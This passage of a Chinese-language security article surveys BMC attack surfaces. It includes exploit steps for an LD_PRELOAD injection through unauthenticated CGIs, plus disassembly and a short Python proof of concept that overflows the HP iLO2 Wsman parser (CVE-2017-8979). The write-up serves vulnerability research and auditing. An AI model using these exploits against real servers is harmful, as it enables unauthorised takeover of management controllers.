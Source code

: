`/cgi-bin/discover?LD_PRELOAD=xxx` 允许设置环境变量

常见思路： 将LD_PRELOAD指向标准输入文件`/proc/self/fd/0`  

但实际不可用，可能的原因有二：

* 不允许将环境变量设置为一个非常文件；
* **在执行到CGI这里的时候，被打开的临时文件描述符其实已经被关闭了**，p牛的解决方法就是控制content-length和文件大小让上传流程一直不结束，从而保持文件描述符打开状态。

不过 `/cgi-bin/putfile` CGI允许未授权用户在文件`/tmp/sshpkauthupload.tmp`中存储任意内容，限128KB。

exploit

1. POST /cgi-bin/putfile     上传任意文件内容
2. POST /cgi-bin/discover?LD_PRELOAD=/tmp/sshpkauthupload.tmp     作为环境变量加载

#### 案例三：CVE-2017-8979

Preauth Stack-Based Buffer Overflow in **Wsman** XML Tag Name Parsing / **Wsman** XMLns - HP iLO2

iLO在对Wsman XML请求处理时，调用sscanf 将xml中**:**后的字符串拷贝到栈上导致栈溢出。

```assembly
ROM:001108B4 movhi   0x1F，rO， r7
ROM:001108B8 movea  0xAEO, r7, r7
   // "%[^:]:%s"
ROM:001108BC addi   0x8O, sp, r8
ROM:001108C0 addi   0xCO, sp, r9
ROM:001108C4 jarl   sscanf, lp
   // sscanf(arg2，"%[^:]:%s", sp[0x80], sp[OxCO])
ROM:001108C8 CMP  2, r10
ROM:001108CA bz   loc_1108E
```

exploit

```py
import requests
headers = {'Content-Type' : ' application/soap+xml;charset=UTF-8'}
payload = "<x:" + "B"*0x300 + ">\n</x>"
r= requests.post('https://x.x.x.x/wsman', data=payload, verify=False, headers=headers)
print r.text
```

## 五、总结

本文主要分享了BMC常见的攻击面及相关实例，从这些漏洞可以看出大部分漏洞成因是常见的逻辑处理问题。因此在对BMC分析的过程中，可以重点审计SMASH、SNMP、IPMI、HTTPS相关处理代码。
